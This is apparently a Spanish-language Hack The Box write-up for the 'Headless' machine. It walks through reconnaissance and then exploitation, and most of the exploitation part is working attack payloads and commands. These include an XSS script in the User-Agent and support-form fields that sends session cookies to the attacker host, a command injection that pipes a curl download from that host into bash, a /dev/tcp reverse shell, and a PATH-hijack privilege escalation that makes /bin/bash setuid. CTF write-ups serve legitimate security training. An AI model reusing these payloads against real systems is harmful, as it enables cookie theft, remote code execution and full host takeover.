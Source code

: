 #writeup #HTB

# Reconocimiento

Comenzamos lanzando [[nmap]]:

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 09 Jul 2024 12:30:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

Vemos que aunque no se reconozca como tal, el servicio que corre en el puerto *5000*, parece ser [[80-http|http]]. Si accedemos, veremos una página con una cuenta atrás. Además, también tendremos acceso a un formulario de soporte.

```whatweb
whatweb http://10.10.11.8:5000/
http://10.10.11.8:5000/ [200 OK] Cookies[is_admin], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[10.10.11.8], Python[3.11.2], Script, Title[Under Construction], Werkzeug[2.2.2]
```

Buscando recursos con [[gobuster]], encontramos una ruta hacia un *dashboard*:

```gobuster
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.8:5000/ -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 3916 / 220548 (1.78%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 3940 / 220548 (1.79%)
===============================================================
Finished
===============================================================
```


# Explotación

Sin embargo, dicho dashboard requiere autenticación. Vemos además que tenemos asignada una cookie **`is_admin`**. Por lo que con [[burpsuite]] tratamos de efectuar un ataque de [[CSRF]], desde el formulario de soporte:

```http
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.50:8001/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 294

Origin: http://10.10.11.8:5000
Referer: http://10.10.11.8:5000/support
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1


fname=you&lname=have&email=been%40pwned&phone=3432445534543&message=<script>var i=new Image(); i.src="http://10.10.14.50:8001/?cookie="+btoa(document.cookie);</script>
```

Tras inyectar código *javascript*, en el **User-Agent**, si nos ponemos en escucha con un servidor *http* con [[python]], podemos obtener una cookie de sesión y decodificarla:

```bash
python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.14.50 - - [09/Jul/2024 16:10:00] "GET /?cookie= HTTP/1.1" 200 -
10.10.11.8 - - [09/Jul/2024 16:10:24] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
10.10.11.8 - - [09/Jul/2024 16:10:26] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
```bash
echo 'aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=' | base64 -d | cat -p
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Guardando la cookie en el navegador, somos capaces de ver el *dashboard*:

![[dashboard.png]]

En este dashboard se nos permite ejecutar una especie de examen de diagnóstico. Podemos volver a interceptar la solicitud con [[burpsuite]] y tratar de inyectar código:

![[burpsuite_injection.png]]

Vemos que hemos sido capaces de inyectar código, vamos a tratar de establecer una [[Reverse shell|reverse shell]]. Para ello creamos un *shell.sh*:

```bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.50/443 0>&1'
```

Nos montamos un servidor *http* con [[python]] y nos ponemos en escucha con [[netcat]]:

![[server_listener.png]]

Y mandamos la siguiente petición:

```http
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://10.10.11.8:5000
Connection: keep-alive
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

date=2023-09-15; curl http://10.10.14.50:8001/shell.sh|bash
```

![[were_in.png]]

Ya estamos dentro y antes que nada aplicamos un [[Tratamiento de la tty]].

# Escalada de privilegios

Para escalar privilegios comenzamos listando nuestros permisos de `sudo` con `sudo -l`:

```bash
sudo -l
```
```sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Como se llama al ejecutable `initdb.sh` de forma relativa, podemos explotar un [[PATH Hijacking]], creamos un archivo con el mismo nombre en el directorio actual:

```bash
chmod +s /bin/bash
```

Y ejecutamos:

```bash
export PATH=$(pwd):$PATH
```

Ya solo falta ejecutar el binario y podremos lanzar una shell privilegiada con `bash -p`.